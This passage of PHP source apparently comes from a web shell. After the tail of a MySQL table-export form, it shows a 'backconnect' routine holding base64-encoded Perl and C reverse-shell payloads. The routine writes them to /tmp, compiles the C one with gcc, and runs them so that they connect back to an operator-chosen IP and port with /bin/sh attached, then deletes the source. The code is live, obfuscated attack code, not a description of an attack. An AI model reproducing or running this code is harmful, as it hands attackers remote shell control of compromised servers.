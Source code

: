 				p("&lt;tr class=\"".bg()."\"&gt;&lt;td colspan=\"".($highver ? 9 : 7)."\"&gt;&lt;input name=\"saveasfile\" value=\"1\" type=\"checkbox\" /&gt; Save as file &lt;input class=\"input\" name=\"path\" value=\"".SA_ROOT.$dbname.".sql\" type=\"text\" size=\"60\" /&gt; &lt;input class=\"bt\" type=\"submit\" value=\"Export selection table\" /&gt;&lt;/td&gt;&lt;/tr&gt;");
				makehide('doing','backupmysql');
				formfoot();
				p("&lt;/table&gt;");
				fr($query);
			}
		}
	}
	tbfoot();
	@mysql_close();
}//end mysql

elseif ($action == 'backconnect') {
	!$yourip && $yourip = $_SERVER['REMOTE_ADDR'];
	!$yourport && $yourport = '12345';
	$usedb = array('perl'=&gt;'perl','c'=&gt;'c');

	$back_connect="IyEvdXNyL2Jpbi9wZXJsDQp1c2UgU29ja2V0Ow0KJGNtZD0gImx5bngiOw0KJHN5c3RlbT0gJ2VjaG8gImB1bmFtZSAtYWAiO2Vj".
		"aG8gImBpZGAiOy9iaW4vc2gnOw0KJDA9JGNtZDsNCiR0YXJnZXQ9JEFSR1ZbMF07DQokcG9ydD0kQVJHVlsxXTsNCiRpYWRkcj1pbmV0X2F0b24oJHR".
		"hcmdldCkgfHwgZGllKCJFcnJvcjogJCFcbiIpOw0KJHBhZGRyPXNvY2thZGRyX2luKCRwb3J0LCAkaWFkZHIpIHx8IGRpZSgiRXJyb3I6ICQhXG4iKT".
		"sNCiRwcm90bz1nZXRwcm90b2J5bmFtZSgndGNwJyk7DQpzb2NrZXQoU09DS0VULCBQRl9JTkVULCBTT0NLX1NUUkVBTSwgJHByb3RvKSB8fCBkaWUoI".
		"kVycm9yOiAkIVxuIik7DQpjb25uZWN0KFNPQ0tFVCwgJHBhZGRyKSB8fCBkaWUoIkVycm9yOiAkIVxuIik7DQpvcGVuKFNURElOLCAiPiZTT0NLRVQi".
		"KTsNCm9wZW4oU1RET1VULCAiPiZTT0NLRVQiKTsNCm9wZW4oU1RERVJSLCAiPiZTT0NLRVQiKTsNCnN5c3RlbSgkc3lzdGVtKTsNCmNsb3NlKFNUREl".
		"OKTsNCmNsb3NlKFNURE9VVCk7DQpjbG9zZShTVERFUlIpOw==";
	$back_connect_c="I2luY2x1ZGUgPHN0ZGlvLmg+DQojaW5jbHVkZSA8c3lzL3NvY2tldC5oPg0KI2luY2x1ZGUgPG5ldGluZXQvaW4uaD4NCmludC".
		"BtYWluKGludCBhcmdjLCBjaGFyICphcmd2W10pDQp7DQogaW50IGZkOw0KIHN0cnVjdCBzb2NrYWRkcl9pbiBzaW47DQogY2hhciBybXNbMjFdPSJyb".
		"SAtZiAiOyANCiBkYWVtb24oMSwwKTsNCiBzaW4uc2luX2ZhbWlseSA9IEFGX0lORVQ7DQogc2luLnNpbl9wb3J0ID0gaHRvbnMoYXRvaShhcmd2WzJd".
		"KSk7DQogc2luLnNpbl9hZGRyLnNfYWRkciA9IGluZXRfYWRkcihhcmd2WzFdKTsgDQogYnplcm8oYXJndlsxXSxzdHJsZW4oYXJndlsxXSkrMStzdHJ".
		"sZW4oYXJndlsyXSkpOyANCiBmZCA9IHNvY2tldChBRl9JTkVULCBTT0NLX1NUUkVBTSwgSVBQUk9UT19UQ1ApIDsgDQogaWYgKChjb25uZWN0KGZkLC".
		"Aoc3RydWN0IHNvY2thZGRyICopICZzaW4sIHNpemVvZihzdHJ1Y3Qgc29ja2FkZHIpKSk8MCkgew0KICAgcGVycm9yKCJbLV0gY29ubmVjdCgpIik7D".
		"QogICBleGl0KDApOw0KIH0NCiBzdHJjYXQocm1zLCBhcmd2WzBdKTsNCiBzeXN0ZW0ocm1zKTsgIA0KIGR1cDIoZmQsIDApOw0KIGR1cDIoZmQsIDEp".
		"Ow0KIGR1cDIoZmQsIDIpOw0KIGV4ZWNsKCIvYmluL3NoIiwic2ggLWkiLCBOVUxMKTsNCiBjbG9zZShmZCk7IA0KfQ==";

	if ($start && $yourip && $yourport && $use){
		if ($use == 'perl') {
			cf('/tmp/angel_bc',$back_connect);
			$res = execute(which('perl')." /tmp/angel_bc $yourip $yourport &");
		} else {
			cf('/tmp/angel_bc.c',$back_connect_c);
			$res = execute('gcc -o /tmp/angel_bc /tmp/angel_bc.c');
			@unlink('/tmp/angel_bc.c');
			$res = execute("/tmp/angel_bc $yourip $yourport &");
		}
		m("Now script try connect to $yourip port $yourport ...");
	}
